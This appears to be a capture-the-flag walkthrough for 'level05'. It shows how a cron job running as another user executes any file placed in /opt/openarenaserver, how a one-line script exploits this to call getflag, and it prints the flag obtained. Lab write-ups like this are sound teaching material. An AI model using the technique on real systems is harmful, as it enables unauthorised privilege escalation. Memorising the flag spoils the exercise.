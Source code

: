 # level05

We log in as `level05` and we see a message :

```
You have new mail.
```

A quick Google search tells us where to look : typically, Linux emails are in `/var/mail` or `/var/spool`. We find a file, `/var/mail/level05`. It contains a single line :

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

What is this ? This is the format of a **cron job**. Cron allows you to run tasks periodically.

`*/2 * * * *` tells us it runs every 2 minutes (see [crontab guru](https://crontab.guru/#*/2_*_*_*_*), a very useful tool) the command `sh /usr/sbin/openarenaserver`. The bit at the end suggests the job is ran by `flag05` - exactly what we need to exploit !

We take a look at the scheduled shell script, `/usr/sbin/openarenaserver` :

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script appears to run every file in the `/opt/openarenaserver`, directory with `bash -x <FILENAME>`.

All we need to do is write a script to run getflag for us. We run :

```
echo 'getflag > /tmp/flag05.txt' > /opt/openarenaserver/script
```

Two minutes later, cron has ran the job, and we can read the level05 flag with `cat /tmp/flag05.txt` :

```
viuaaale9huek52boumoomioc
```